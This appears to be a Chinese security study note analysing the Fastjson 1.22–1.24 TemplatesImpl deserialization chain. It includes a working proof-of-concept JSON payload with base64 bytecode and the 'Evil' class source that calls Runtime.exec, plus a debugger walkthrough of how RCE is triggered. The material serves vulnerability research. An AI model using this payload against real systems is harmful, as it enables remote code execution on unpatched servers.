

##  限制

这个利用链要求还是很高的，需要设置`Feature.SupportNonPublicField`才能成功触发

##  payload

payload

```java
package fastjson.template;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class Test {
    public static void main(String[] args) {
        String jsonString = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"yv66vgAAADQANAoACAAkCgAlACYIACcKACUAKAcAKQoABQAqBwArBwAsAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAAR0aGlzAQAGTEV2aWw7AQANU3RhY2tNYXBUYWJsZQcAKwcAKQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAtAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAJRXZpbC5qYXZhDAAJAAoHAC4MAC8AMAEABGNhbGMMADEAMgEAE2phdmEvaW8vSU9FeGNlcHRpb24MADMACgEABEV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAD3ByaW50U3RhY2tUcmFjZQAhAAcACAAAAAAAAwABAAkACgABAAsAAAB8AAIAAgAAABYqtwABuAACEgO2AARXpwAITCu2AAaxAAEABAANABAABQADAAwAAAAaAAYAAAAKAAQADAANAA8AEAANABEADgAVABAADQAAABYAAgARAAQADgAPAAEAAAAWABAAEQAAABIAAAAQAAL/ABAAAQcAEwABBwAUBAABABUAFgACAAsAAAA/AAAAAwAAAAGxAAAAAgAMAAAABgABAAAAFQANAAAAIAADAAAAAQAQABEAAAAAAAEAFwAYAAEAAAABABkAGgACABsAAAAEAAEAHAABABUAHQACAAsAAABJAAAABAAAAAGxAAAAAgAMAAAABgABAAAAGgANAAAAKgAEAAAAAQAQABEAAAAAAAEAFwAYAAEAAAABAB4AHwACAAAAAQAgACEAAwAbAAAABAABABwAAQAiAAAAAgAj\"],\"_name\":\"z3eyond\",\"_tfactory\":{},\"_outputProperties\":{}}";
        JSON.parse(jsonString, Feature.SupportNonPublicField);
    }
}

```

字节码就是这个类的class文件进行base64加密得到的

```java
package fastjson.template;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class Evil extends AbstractTranslet {
    public Evil() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
}
```

##  分析

前言的JSONScanner是初始化操作

调试直接进入，这个位置获取到第一个字符ch为`"`，获取到`key=@type`，然后对其类进行`loadClass`


在`TypeUtils.loadClass`,这个类在后面的绕过黑名单会研究这个。


进入这个函数，进行反序列化操作，就是对属性进行赋值


在反序列化操作里面，不断`setValue`


因为`TemplatesImpl`类中本身就没有setter函数，所以我们如果需要设置值的话，就要设置`Feature.SupportNonPublicField`。对于每一个`fieldInfo`,都会获取对应的`setter`


然后执行`getoutputProperties`方法，触发RCE



注意:

对属性的短横线的处理，这个`parseField`函数


进入这个`smartMatch`方法：


这个位置就是处理了属性的短横线


为什么bytes字节码是base64加密？

`_bytecodes`在json反序列化，进行赋值时，会对其进行base64解码，所以我们需要对base64进行加密。


##  参考文章

https://github.com/Y4tacker/JavaSec/blob/main/3.FastJson%E4%B8%93%E5%8C%BA/Fastjson1.22-1.24/Fastjson1.22-1.24%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90%E4%B9%8BTemplateImpl/Fastjson1.22-1.24.md